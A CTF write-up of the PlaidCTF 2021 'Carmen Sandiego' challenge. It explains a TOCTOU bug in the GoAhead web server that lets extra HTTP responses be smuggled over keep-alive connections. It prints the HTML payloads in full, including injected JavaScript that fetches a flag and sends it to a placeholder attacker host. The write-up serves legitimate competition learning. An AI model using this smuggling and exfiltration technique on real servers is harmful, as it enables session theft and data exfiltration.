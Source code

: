 # PlaidCTF 2021 

## Carmen Sandiego

### Setup

![](./setup.png)

As described in the diagram above, we somehow had to get the flag through the victim visiting the URL supplied by us. Because of the cookie, it would probably have to be on the same origin as the flag, so if we could get XSS somehow, we get the flag. However, there was a quite strict CSP that forbid script execution except for scripts with the correct nonce.

### 1. Season

The first season had an unintended solution where we could execute JavaScript by simply giving URLs that started with `javascript:...`
and it would be executed on the page that was open at the time, which conveniently was the index page of the IoT Hub.

### 2. Season

Season 2 fixed this mistake by only allowing http(s) urls and creating a new page.

The README.md file gave us a hint where to look: 
```
The intended solution uses a bug in `file.c` of GoAhead.  (Feel free to look for bugs elsewhere though!)
```

Looking throught the file, we noticed one thing:

```c
websWriteHeaders(wp, info.size, 0);

...

if (info.size > 0) {
    websSetBackgroundWriter(wp, fileWriteEvent);
} else {
    websDone(wp);
}

```
 
 
 ```c
 static void fileWriteEvent(Webs *wp)
{
   ...
    while ((len = websPageReadData(wp, buf, ME_GOAHEAD_LIMIT_BUFFER)) > 0) {
        ...
    }
    ...
}

 ```
  ```c
PUBLIC ssize websPageReadData(Webs *wp, char *buf, ssize nBytes)
{
    ...
    return websReadFile(wp->docfd, buf, nBytes);
}


 ```
 
 ```c
 PUBLIC ssize websReadFile(int fd, char *buf, ssize size)
{
    ...
    return read(fd, buf, (uint) size);
    ...
}
 ```
 
 There is a TOCTOU (Time-of-check to time-of-use) problem, the content length gets sent first, but that size is not used as a limit for the sending, so if we write to the file after the content length has been set, we can write more than the content length specified.
 
We further notice that HTTP/1.1 with `Connection: keep-alive` is being used. So could we just append more HTTP requests, kind of like with HTTP request smuggling, but with responses instead?

No better time to try than now, and sure enough, after some failed tries, chrome finally mistook one of our appended responses as another one. 

![](./success.png)

This was achieved by uploading a html payload like this for the page the victim is going to visit:

```htmlembedded=
<html>
    <body>
        <img src="http://<your_machine>/start_of_prep"/> <!-- Debugging -->
        <Iframe src='./camone?0'></iframe>
        <Iframe src='./camone?1'></iframe>
        <Iframe src='./camone?2'></iframe>
        <Iframe src='./camone?3'></iframe>
        <Iframe src='./camone?4'></iframe>
        <Iframe src='./camone?5'></iframe>
        <Iframe src='./camone?6'></iframe>
        <Iframe src='./camone?7'></iframe>
        <img src="http://<your_machine>/end_of_prep"/> <!-- Debugging -->
    </body>
</html>
```

and uploading a payload for the file that is going to get replaced while it is being served.

Payload A
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_a"/> <!-- Debugging -->
        many AAAA...
        <img src="http://<your_machine>/end_of_cam_one_a"/> <!-- Debugging -->
    </body>
</html>
```


Payload B
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_b"/> <!-- Debugging -->
        fewer BBBB...
        <img src="http://<your_machine>/end_of_cam_one_b"/> <!-- Debugging -->
    </body>
</html> <!-- note that the new response has to start in a new tcp packet -->
HTTP/1.1 200 OK
Content-Length: ...
Connection: keep-alive
<html>
    <body>
        Hello World!
        <script>
            fetch("/cgi-bin/flag").then(r => r.text()).then(flag => fetch("http://<your_machine>/flag?" + flag))
        </script>
    </body>
</html>
...
```



While chrome is downloading the payload a for the first few iframes, we replace the file with payload B so that the server now sends more than it has announced in the content-length header. Chrome will only open a certain number of connections to the same origin, so by making many requests, more requests would be made through the same connection and mistake our appended HTML response as the requested one later.

The injected HTTP response contains a simple javascript payload extracting the flag. Because we have full control over the HTTP headers, we don't have to worry about CSP.

(The `<img .../>` were for debugging on the server and helped us to properly time the replacement of the payload)

This would give us the first flag of Season two, for the second flag, the service which we used to upload the files was changed to only allow more restricted input. We did not solve this in time.

While this was probably the intended way of solving this challenge, another team found [a different one by exploiting the renderer](https://ptr-yudai.hatenablog.com/entry/2021/04/19/140802) :o 





